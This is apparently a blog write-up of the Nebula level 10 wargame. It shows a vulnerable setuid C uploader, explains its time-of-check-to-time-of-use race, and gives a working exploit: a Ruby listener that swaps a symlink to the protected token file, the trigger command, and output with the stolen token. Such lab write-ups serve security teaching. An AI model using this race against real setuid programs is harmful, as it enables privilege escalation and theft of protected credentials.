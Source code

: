 ```yaml
---
title: "Exploit Exercises - Nebula Level 10"
date: 2014-01-25 12:40:53+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


### About

The setuid binary at */home/flag10/flag10* binary will upload any file given, as long as it meets the requirements of the *access()* system call.

To do this level, log in as the *level10* account with the password *level10*. Files for this level can be found in /home/flag10.

### Source Code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
    exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
    int fd;
    int ffd;
    int rc;
    struct sockaddr_in sin;
    char buffer[4096];
  	
    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
  	
    fd = socket(AF_INET, SOCK_STREAM, 0);
  	
    memset(&sin, 0, sizeof(struct sockaddr_in));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = inet_addr(host);
    sin.sin_port = htons(18211);
  	
    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
      printf("Unable to connect to host %s\n", host);
      exit(EXIT_FAILURE);
    }
  	
#define HITHERE ".oO Oo.\n"
    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
      printf("Unable to write banner to host %s\n", host);
      exit(EXIT_FAILURE);
    }
#undef HITHERE
  
    printf("Connected!\nSending file .. "); fflush(stdout);
  	
    ffd = open(file, O_RDONLY);
    if(ffd == -1) {
      printf("Damn. Unable to open file\n");
      exit(EXIT_FAILURE);
    }
  	
    rc = read(ffd, buffer, sizeof(buffer));
    if(rc == -1) {
      printf("Unable to read from file: %s\n", strerror(errno));
      exit(EXIT_FAILURE);
    }
  	
    write(fd, buffer, rc);
  	
    printf("wrote file!\n");
  } else {
    printf("You don't have access to %s\n", file);
  }
}
```

<!-- more -->

There at two files in the directory /home/flag10, *flag10* and *token*. The source code of executable *flag10* in shown above, and *token* contains the password of user *flag10*. The goal is to read the content of *token*.

The attack comes from a common bug called [Time of check to time of use](http://en.wikipedia.org/wiki/Time-of-check-to-time-of-use), the Wiki page above explains precisely about what this bug is and how it can be exploited. So in my imagination this is how this attack would look like: 

1. pass */home/level10/token* whick links to a real user(*level10*) readable file */home/level10/test* to the program as `argv[1]`
2. */home/flag10/flag10* checks whether this file is accessable at line 24(with the result true)
3. modify the file to link to */home/flag10/token* when */home/flag10/flag10* is executing code between line 24 and line 54
4. when */home/flag10/flag10* reads the file at line 54, it reads */home/flag10/token*

The most important step mentioned above is step 3, it is hard to control the time! Fortunately, the *flag10* program will send a banner before actually read the file(line 46), this leaves me some time to make some change!

Notice that the content of the file would be transmit through a socket connection, so I need to write my own server code. In my consideration, I need to change the file */home/level10/token* immediately after the server accepts a connection from the client, I wrote this server code in Ruby:

``` ruby
require 'socket'

server = TCPServer.new(18211)
loop {
    client = server.accept
    `rm /home/level10/token; ln -s /home/flag10/token /home/level10/token`
    while msg = client.gets
        puts "RECV: #{msg}"
    end
}
```

After the server was started, I triggered the vulnerability with the following command

	$ /home/flag10/flag10 ~/token 127.0.0.1

Note that the symbolic file *~/token* must exist and point to a file that is readable by user *level10* before the program *flag10* is executed. 

The output of the Ruby code was not always as expected, sometimes the client read the file before the server changed it, but as long as it could be right, it hacked!

``` bash
level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: hello world

level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
